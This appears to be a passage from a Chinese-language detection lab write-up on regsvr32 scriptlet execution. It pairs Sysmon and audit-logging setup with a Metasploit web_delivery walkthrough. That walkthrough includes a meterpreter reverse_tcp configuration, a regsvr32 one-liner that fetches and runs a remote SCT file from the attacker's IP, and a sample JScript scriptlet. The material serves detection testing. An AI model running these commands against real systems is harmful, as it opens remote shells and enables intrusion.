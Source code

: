**日志配置**：
- 启用命令行审计：`本地计算机策略 > 计算机配置 > 管理模板 > 系统 > 审核进程创建 > 在进程创建事件中加入命令行 > 启用`。
- 部署Sysmon，配置捕获进程创建、网络连接和镜像加载事件。

## 测试复现

### 测试环境

- **攻击机**：Kali Linux 2019，IP：192.168.126.146
- **靶机**：Windows 7，IP：192.168.126.149，Sysmon已部署
- **工具**：Metasploit（`exploit/multi/script/web_delivery`）

### 测试过程

#### 1. 配置Metasploit（攻击机）

**命令**：
```bash
msfconsole
use exploit/multi/script/web_delivery
set TARGET 3
set LHOST 192.168.126.146
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

**输出**：
```
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Using URL: http://0.0.0.0:8080/06Yud7aXXqYqT
[*] Local IP: http://192.168.126.146:8080/06Yud7aXXqYqT
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://192.168.126.146:8080/06Yud7aXXqYqT.sct scrobj.dll
```

**说明**：
- 配置Web服务器托管SCT文件，监听反向TCP连接（端口4444）。

#### 2. 创建SCT文件（攻击机）

- Metasploit自动生成SCT文件（`06Yud7aXXqYqT.sct`），包含JScript代码，执行Meterpreter Payload。
- 示例SCT内容（简化）：
  ```xml
  <?XML version="1.0"?>
  <scriptlet>
    <registration progid="Test"></registration>
    <script language="JScript">
      <![CDATA[
        var shell = new ActiveXObject("WScript.Shell");
        shell.Exec("rundll32.exe shell32.dll,ShellExec_RunDLL calc.exe");
      ]]>
    </script>
  </scriptlet>
  ```
